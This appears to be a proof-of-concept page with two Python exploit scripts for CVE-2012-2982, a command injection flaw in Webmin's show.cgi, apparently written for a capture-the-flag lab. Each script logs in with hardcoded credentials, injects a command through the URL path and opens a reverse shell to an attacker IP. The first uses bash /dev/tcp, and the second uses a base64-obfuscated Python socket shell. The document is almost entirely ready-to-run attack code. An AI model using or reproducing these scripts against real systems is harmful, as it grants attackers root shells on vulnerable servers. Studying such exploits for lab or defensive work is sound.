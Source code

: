 POC
---

### web.py

    #!/usr/bin/env python

    #usage: python3 web.py <targetIP>
    import sys, requests, string, secrets

    targetIP = sys.argv[1]
    lhost = "10.10.10.10" #attacker IP
    lport = "53" #listening port

    data = {'page' : "%2F", 'user' : "user1", 'pass' : "1user"}
    url = f"http://{targetIP}/session_login.cgi"

    r = requests.post(url, data=data, cookies={"testing":"1"}, verify=False, allow_redirects=False)

    if r.status_code == 302 and r.cookies["sid"] != None:
        print("[+] Login successful, executing payload")
    else:
        print("[-] Failed to login")

    sid = r.cookies["sid"]

    def rand():
        alphaNum = string.ascii_letters + string.digits
        randChar = ''.join(secrets.choice(alphaNum) for i in range(5))
        return randChar

    def payload():
        payload = f"bash -c 'exec bash -i &>/dev/tcp/{lhost}/{lport}<&1'"
        return payload

    exp = f"http://{targetIP}/file/show.cgi/bin/{rand()}|{payload()}|"

    req = requests.post(exp, cookies={"sid":sid}, verify=False, allow_redirects=False)

### gamezone.py

    #!/usr/bin/env python

    #CVE-2012-2982 translated from ruby metasploit module (/webmin_show_cgi_exec.rb)
    #program outline:
        # - POST request with compromised creds to get the cookie
        # - exploit using invalid characters to get system shell
        # - fetches system shell as root
        # - sends shell through socket to listening attacker IP
    #usage:
        # - MUST BE SSH TUNNELED INTO MACHINE TO ACCESS localhost
        # - python gamezone.py
        # - listen with nc -nlvp 4445 on attacker

    import sys, os, subprocess, requests, socket, string, secrets, base64

    lhost = "10.10.174.47" #attacker IP CHANGE, needs to be a string to convert in payload function
    lport = "4445" # listening port, string to convert in payload function

    #Login with compromised creds and print good status response
    creds = {'page' : "%2F", 'user' : "agent47", 'pass' : "videogamer124"} #must be A dictionary, list of tuples, bytes or a file object
    url = "http://localhost:10000/session_login.cgi"

    r = requests.post(url, data=creds, cookies={"testing":"1"}, verify=False, allow_redirects=False) #send POST request to login
    #if status code 302 found and sid not empty
    if r.status_code == 302 and r.cookies["sid"] != None:
        print("[+] Login successful, executing payload (listen for shell)")
    else:
        print("[-] Failed to login")

    sid = r.headers['Set-Cookie'].replace('\n', '').split('=')[1].split(";")[0].strip() #replace the sid cookie newline character, split at = and store the second element (sid) of array, split at ; and stop at first element in array, strip remaining

    #generates random characters and delivers the payload
    def rand():
        alphaNum = string.ascii_letters + string.digits #custom alphanumeric string variable
        randChar = ''.join(secrets.choice(alphaNum) for i in range(5)) #generate 5 random alphanumeric characters
        return randChar

    def payload():
        payload = "python -c \"import base64;exec(base64.b64decode('" #run python command to execute base64
        shell = "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\""+ lhost + "\"," + lport + "));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"])" #open a socket, send it to the attacking host/port, open the shell
        shell = str.encode(shell) #encode the shellcode as a string
        encoded = base64.b64encode(shell) #encode the string with base64
        encoded = encoded.decode("utf-8") #decode that to be used as a string in the exploit URL
        closing = "'))\"" #close the payload
        payload += encoded #update the payload to contain the encoded/decoded parameters
        payload += closing
        return payload

    exp = "http://localhost:10000/file/show.cgi/bin/" + "%s|%s|" % (rand(), payload())

    req = requests.post(exp, cookies={"sid":sid}, verify=False, allow_redirects=False) #send POST request to upload shellcode